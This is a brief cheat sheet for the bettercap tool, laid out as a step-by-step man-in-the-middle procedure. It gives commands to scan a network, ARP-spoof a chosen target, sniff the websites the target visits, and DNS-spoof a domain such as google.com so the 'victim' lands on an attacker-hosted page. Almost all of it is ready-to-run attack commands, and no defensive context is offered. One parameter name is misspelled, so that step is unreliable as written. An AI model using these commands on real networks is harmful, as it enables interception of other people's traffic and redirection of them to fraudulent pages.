 <h1>bettercap Cheat sheet</h1>

<h2>Cli Commands</h2>


<h2>Procedure:</h2>

<p align="Left">
- sudo bettercap --iface eth0 - Bettercap start at the ethernet interface 0 <br/> 
- net.probe on - start scanning the network for hosts<br/>
- net.show - displays info on table<br/>

Arp Spoof

          set arp.spoof.fullduplex true - Attcking module on
          set arp.spoof.targets <targetip> - setting target
          arp.spoof on - spoofer started
          net.sniff on - start sniffing and would give us the websites the target visists

DNS Spoof
  
          set dns.spoof.domains <domainname.com> - Change domain name to the name of the website that the victim going to access
          set dns.spoof.sddress <redirecting ip address> - Give the spoofer an IP for redirection
          dns.spoof on - Starting the attack
          eg - change the domain to google.com and the victim will see the page you hosting on the IP as the result
